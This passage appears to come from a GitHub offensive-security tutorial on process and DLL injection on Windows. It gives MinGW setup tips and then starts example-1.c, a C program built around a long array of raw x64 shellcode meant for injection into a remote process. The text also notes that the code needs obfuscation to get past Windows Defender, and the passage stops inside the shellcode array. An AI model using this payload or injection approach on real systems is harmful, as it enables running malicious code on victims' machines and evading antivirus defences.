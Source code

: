 Edit the `Path` variable and add an entry for the location of `mingw64\bin`  

- Open a new terminal and type `gcc --version`, if that errors, the environmental variable `%PATH%` is most likely incorrect.  

> **MSVC (Visual Studio) build tools may interfere with compilation, so exclude them from `%PATH%` temporarily if they're installed**  

> I'd installed `VC++ 2017 version 15.9 v14.16` build tools because I wanted `bindump.exe` and uninstalling after I nabbed the `bin` directory containing bindump seemed to fix the DLLs not compiling correctly. A less drastic approach is possible, I was only interested in bindump... It also may have been me entering the compile commands incorrectly... The codes work, if you're having issues with the dll not doing anything once injected, make sure you're using MinGW-x64.  

# The first thing we're going to do is try injecting some basic shellcode into a remote process just as a quick demo in case you've never done this before and actually the place I went to learn the most basic syntax of the calls.

## Take a look at Red Team Notes for a basic example of shellcode injection into a remote process. 

**https://www.ired.team/offensive-security/code-injection-process-injection/process-injection**  

**Without obfuscation, this code won't make it past windows defender**  

- example-1.c  

```c  
#include "stdafx.h"
#include "Windows.h"

int main(int argc, char *argv[])
{
	unsigned char shellcode[] =
		"\\x48\\x31\\xc9\\x48\\x81\\xe9\\xc6\\xff\\xff\\xff\\x48\\x8d\\x05\\xef\\xff"
		"\\xff\\xff\\x48\\xbb\\x1d\\xbe\\xa2\\x7b\\x2b\\x90\\xe1\\xec\\x48\\x31\\x58"
		"\\x27\\x48\\x2d\\xf8\\xff\\xff\\xff\\xe2\\xf4\\xe1\\xf6\\x21\\x9f\\xdb\\x78"
		"\\x21\\xec\\x1d\\xbe\\xe3\\x2a\\x6a\\xc0\\xb3\\xbd\\x4b\\xf6\\x93\\xa9\\x4e"
		"\\xd8\\x6a\\xbe\\x7d\\xf6\\x29\\x29\\x33\\xd8\\x6a\\xbe\\x3d\\xf6\\x29\\x09"
		"\\x7b\\xd8\\xee\\x5b\\x57\\xf4\\xef\\x4a\\xe2\\xd8\\xd0\\x2c\\xb1\\x82\\xc3"
		"\\x07\\x29\\xbc\\xc1\\xad\\xdc\\x77\\xaf\\x3a\\x2a\\x51\\x03\\x01\\x4f\\xff"
		"\\xf3\\x33\\xa0\\xc2\\xc1\\x67\\x5f\\x82\\xea\\x7a\\xfb\\x1b\\x61\\x64\\x1d"
		"\\xbe\\xa2\\x33\\xae\\x50\\x95\\x8b\\x55\\xbf\\x72\\x2b\\xa0\\xd8\\xf9\\xa8"
		"\\x96\\xfe\\x82\\x32\\x2a\\x40\\x02\\xba\\x55\\x41\\x6b\\x3a\\xa0\\xa4\\x69"
		"\\xa4\\x1c\\x68\\xef\\x4a\\xe2\\xd8\\xd0\\x2c\\xb1\\xff\\x63\\xb2\\x26\\xd1"
		"\\xe0\\x2d\\x25\\x5e\\xd7\\x8a\\x67\\x93\\xad\\xc8\\x15\\xfb\\x9b\\xaa\\x5e"
		"\\x48\\xb9\\xa8\\x96\\xfe\\x86\\x32\\x2a\\x40\\x87\\xad\\x96\\xb2\\xea\\x3f"
		"\\xa0\\xd0\\xfd\\xa5\\x1c\\x6e\\xe3\\xf0\\x2f\\x18\\xa9\\xed\\xcd\\xff\\xfa"
		"\\x3a\\x73\\xce\\xb8\\xb6\\x5c\\xe6\\xe3\\x22\\x6a\\xca\\xa9\\x6f\\xf1\\x9e"
		"\\xe3\\x29\\xd4\\x70\\xb9\\xad\\x44\\xe4\\xea\\xf0\\x39\\x79\\xb6\\x13\\xe2"
		"\\x41\\xff\\x32\\x95\\xe7\\x92\\xde\\x42\\x8d\\x90\\x7b\\x2b\\xd1\\xb7\\xa5"
		"\\x94\\x58\\xea\\xfa\\xc7\\x30\\xe0\\xec\\x1d\\xf7\\x2b\\x9e\\x62\\x2c\\xe3"
		"\\xec\\x1c\\x05\\xa8\\x7b\\x2b\\x95\\xa0\\xb8\\x54\\x37\\x46\\x37\\xa2\\x61"
		"\\xa0\\x56\\x51\\xc9\\x84\\x7c\\xd4\\x45\\xad\\x65\\xf7\\xd6\\xa3\\x7a\\x2b"
		"\\x90\\xb8\\xad\\xa7\\x97\\x22\\x10\\x2b\\x6f\\x34\\xbc\\x4d\\xf3\\x93\\xb2"
		"\\x66\\xa1\\x21\\xa4\\xe2\\x7e\\xea\\xf2\\xe9\\xd8\\x1e\\x2c\\x55\\x37\\x63"
		"\\x3a\\x91\\x7a\\xee\\x33\\xfd\\x41\\x77\\x33\\xa2\\x57\\x8b\\xfc\\x5c\\xe6"
		"\\xee\\xf2\\xc9\\xd8\\x68\\x15\\x5c\\x04\\x3b\\xde\\x5f\\xf1\\x1e\\x39\\x55"
		"\\x3f\\x66\\x3b\\x29\\x90\\xe1\\xa5\\xa5\\xdd\\xcf\\x1f\\x2b\\x90\\xe1\\xec"
		"\\x1d\\xff\\xf2\\x3a\\x7b\\xd8\\x68\\x0e\\x4a\\xe9\\xf5\\x36\\x1a\\x50\\x8b"
		"\\xe1\\x44\\xff\\xf2\\x99\\xd7\\xf6\\x26\\xa8\\x39\\xea\\xa3\\x7a\\x63\\x1d"
		"\\xa5\\xc8\\x05\\x78\\xa2\\x13\\x63\\x19\\x07\\xba\\x4d\\xff\\xf2\\x3a\\x7b"
		"\\xd1\\xb1\\xa5\\xe2\\x7e\\xe3\\x2b\\x62\\x6f\\x29\\xa1\\x94\\x7f\\xee\\xf2"
		"\\xea\\xd1\\x5b\\x95\\xd1\\x81\\x24\\x84\\xfe\\xd8\\xd0\\x3e\\x55\\x41\\x68"
```